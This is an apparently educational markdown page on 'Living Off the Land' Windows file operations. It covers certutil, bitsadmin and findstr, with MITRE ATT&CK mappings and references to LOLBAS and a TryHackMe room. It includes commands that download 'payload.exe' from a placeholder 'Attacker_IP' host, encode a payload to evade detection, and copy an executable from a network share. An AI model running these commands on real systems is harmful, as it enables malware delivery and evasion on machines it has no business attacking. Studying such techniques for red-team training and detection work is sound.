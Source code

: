 # File Operations

## Theory

Here, we will show commonly used tools used by "Living Off the Land" techniques about file operations including download, upload, and encoding.
This techniques are covered by the [LOLBAS project](https://lolbas-project.github.io/#)

## Practice

{% tabs %}
{% tab title="Certutil.exe" %}
Certutil is a Windows built-in utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components.
However, people found that certutil.exe could transfer and encode files unrelated to certification services.


```bash
#Dowload a file
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe

#Encode a file
certutil -encode payload.exe Encoded-payload.txt
```
The MITRE ATT&CK framework identifies this techniques as [Ingress tool transfer (T1105)](https://attack.mitre.org/techniques/T1105/) and [Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/)
{% endtab %}

{% tab title="BITSAdmin.exe" %}
The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).


```bash
#Dowload a file and execute
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\Pwned\Desktop\payload.exe
```
The MITRE ATT&CK framework identifies this technique as [BITS Job (T1197)](https://attack.mitre.org/techniques/T1197/)

{% endtab %}

{% tab title="FindStr.exe" %}
[Findstr](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) is a Microsoft built-in tool used to find text and string patterns in files. The findstr tool is useful in that helps users and system administrators to search within files or parsed output.
However, an unintended way was found by using findstr.exe to download remote files from SMB shared folders within the network as follows,

```bash
#Dowload a file
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```
he MITRE ATT&CK framework identifies this technique as [Ingress tool transfer (T1105)](https://attack.mitre.org/techniques/T1105/)

{% endtab %}
{% endtabs %}



## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://lolbas-project.github.io/#" %}